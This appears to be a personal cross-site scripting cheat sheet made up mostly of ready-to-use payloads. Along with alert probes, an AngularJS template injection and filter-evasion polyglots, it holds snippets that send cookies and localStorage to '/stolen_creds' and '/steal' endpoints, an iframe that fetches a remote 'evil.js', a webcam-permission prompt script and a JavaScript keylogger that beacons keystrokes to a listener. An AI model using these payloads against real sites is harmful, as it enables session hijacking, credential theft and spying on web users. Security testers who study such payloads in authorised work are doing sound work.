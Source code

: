 # *Hacking* XSS
#web #hacking

## HTML injection (without XSS)
```
<b>hacking</b>
<img src="https://cdn.pixabay.com/photo/2017/03/08/19/39/hacked-2127635__180.png"></img>
```

## Quick snippets
```
<script>alert(123)</script>
“><script>alert(document.cookie)</script>
<SCRIPT SRC=http://xss.rocks/xss.js></SCRIPT>
javascript:/*--></title></style></textarea></script></xmp><svg/onload='+/"/+/onmouseover=1/+/[*/[]/+alert(1)//'>
<iframe onload=alert(1)></iframe>
<IMG SRC=/ onerror="alert(1)"></img>
<IMG SRC=/ onerror="alert(JSON.stringify(window.localStorage))"></img>
$.get(encodeURI("http://127.0.0.1:8000/stolen_creds?" + JSON.stringify(window.localStorage)
<iframe frameBorder="0" height="1" width="1" onload=$.getScript("http://127.0.0.1:8000/evil.js")></iframe>foo
<iframe/src=javascript:alert(1)>
<iframe/src=javascript:console.log('foo')>
<iframe/src=http://localhost:8000/evil.html>
```

# Angular JS
```
{{constructor.constructor('alert(1337)')()}}
```

# Ask for webcam permissions
```
<script>
if (navigator.mediaDevices.getUserMedia) {
  navigator.mediaDevices.getUserMedia({ video: true })
    .then(function (stream) {
      alert("Thanks for sharing your webcam with the security team!")
    })
    .catch(function (error) {
      alert("We'll get you another way!")
    });
}
</script>
```

# Emoji payload
```
"><script>alert("💻👿😀")</script>
```

# Data extraction
Cookies: `document.cookie`
Domain: `document.domain`
Localstorage: `JSON.stringify(window.localStorage)`

## Extracting from localStorage
Extracting key and subkeys
```
JSON.parse(window.localStorage.getItem('key')).subkey
```

# Data exfiltration
## Post to webhook
Requires jQuery
```
$.get(encodeURI("http://127.0.0.1:8000/stolen_creds?"+JSON.stringify(window.localStorage)))
```

## Via redirect
Simple, but the redirect could give things away (unless in an iframe)
```
window.location.href='http://localhost:8000/steal?'+myPayload
```

# Cheat sheets
* https://portswigger.net/web-security/cross-site-scripting/cheat-sheet
* http://www.xss-payloads.com/payloads-list.html?a#category=all
* https://netsec.expert/posts/xss-in-2021/

# Javascript keylogger
https://github.com/JohnHoder/Javascript-Keylogger/blob/master/keylogger.js
```
var keys='';
var url = 'http://127.0.0.1:8000/keylogger?c=';

document.onkeypress = function(e) {
	get = window.event?event:e;
	key = get.keyCode?get.keyCode:get.charCode;
	key = String.fromCharCode(key);
	keys+=key;
}
window.setInterval(function(){
	if(keys.length>0) {
		new Image().src = url+keys;
		keys = '';
	}
}, 1000);
```
# XSS Polyglots
* https://chefsecure.com/courses/xss/recipes/polyglots-the-ultimate-xss-payloads
* https://github.com/0xsobky/HackVault/wiki/Unleashing-an-Ultimate-XSS-Polyglot

```
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e
```

# Javascript Payload Sites
http://www.xss-payloads.com/payloads-list.html?a#category=all

# Owasp
https://owasp.org/www-community/xss-filter-evasion-cheatsheet
